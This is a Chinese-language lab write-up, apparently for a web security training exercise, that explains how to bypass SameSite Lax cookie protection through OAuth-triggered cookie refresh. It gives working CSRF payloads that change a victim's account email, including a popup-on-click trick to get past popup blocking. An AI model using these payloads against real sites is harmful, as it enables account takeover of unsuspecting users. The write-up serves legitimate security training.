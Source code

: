 # 题意
# 解题思路
step1:测试请求

用OAuth登录网站，获取对应请求如下
![](pic/authwithoutsamsite.png)
可以看到没有给cookie设置SameSite属性，说明是默认的Lax。

step2:测试CSRF攻击
在exploit server中写入如下payload，查看exploit。

如果登录时间超过2分钟，则会按照正常OAuth登录，攻击失败。这是就需要重新登录并且再次发起攻击

```
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```
![](pic/csrftest.png)


step3:绕过SameSite限制

访问/social-login页面会自动初始化一个完整的OAuth flow，同时，目标站点会生成一个新的会话cookie，即使是已经登录的情况。将exploit server的payload改成如下：
```

<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```
这段payload在一个新窗口中打开了/social-login来触发cookie刷新。短暂延迟后CSRF攻击生效。但这只是在cookie生成好两分钟之内有效，超过两分钟会因为拦截弹出窗口阻止cookie刷新而失效。
![](pic/authwithoutsamsite.png)

step4:绕过拦截窗口

弹出窗口被拦截是因为没有手动与页面交互。调整页面，使其诱导受害者点击页面，并且仅在用户点击后才打开弹出窗口。payload如下：
```


<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

保存后查看exploit。
![](pic/bypasspopup.png)

# 知识点
## 利用刷新cookie绕过SameSite Lax限制
被Lax级限制的cookie通常不会发送任何跨站POST请求，但是又一些例外。一般来说，浏览器在没有设置SameSite等级的情况下会将其默认设置为Lax，但是，为了不破坏单点登录机制，在收到top-level POST请求后的120s内SameSite限制并没有启动。这就有一个可能实施攻击的两分钟窗口期。注意，这两分钟窗口期不适用于明确被设置成SameSite=Lax的cookie。


但要在两分钟内完成整个攻击不太现实，如果能在目标站点找到一个方法，强制向受害者发出新的会话 cookie，就可以在跟进主要攻击之前先发制人地刷新他们的 cookie。例如，每完成一个基于OAuth的登录流程都会生成一个新的会话。因为OAuth服务不需要知道用户是否仍然登录在目标站点。


为了能在不让受害者手动登录的同时刷新cookie，需要用到top-level navigation。它能保证cookie和cookie当前的OAuth会话被包含。但这也引入了一个新的问题就是需要将用户重定向回攻击者的网站，进而实施CSRF攻击。

还有一种方法是从新标签页触发cookie刷新，这样浏览器在攻击者发动最终的攻击前不需要离开页面。但同时也有个小问题，浏览器会阻塞弹出窗口，除非是被手动打开的。例如
，下面这个页面会被阻塞：
```
window.open('https://vulnerable-website.com/login/sso');

```

可以用onclick 处理器将其封装：
```
window.onclick = () => {
    window.open('https://vulnerable-website.com/login/sso');
}
```
这样，window.open()方法就只会在用户点击页面的某个地方时被唤起。